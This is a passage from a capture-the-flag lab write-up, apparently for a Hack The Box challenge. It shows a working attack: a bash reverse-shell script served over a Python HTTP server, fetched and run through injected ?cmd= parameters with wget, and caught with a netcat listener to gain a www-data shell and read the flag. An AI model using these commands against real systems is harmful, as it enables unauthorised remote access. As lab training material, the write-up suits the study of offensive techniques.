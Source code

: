 ![](images/Pasted%20image%2020250801175310.png)

We can use it to run the reverse shell
Since we are running commands to avoid issues with quotation marks and blacklists, we can create an index.html file in bash containing `revshell` and share it, then download the file using `wget` and run it using bash
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ cat index.html      
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.5/443 0>&1
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

```
?cmd=wget 10.10.14.5/index.html  
?cmd=bash index.html
```
Then we can get the reverse shell as `www-data`
```
netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.15
www-data@0474e1401baa:~/web$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
www-data@0474e1401baa:~/web$ hostname -I
172.22.11.10 
www-data@0474e1401baa:~/web$ cat ../flag.txt 
AWS{N0nc3_R3u5e_t0_s571_c0de_ex3cu71on}
www-data@0474e1401baa:~/web$
```
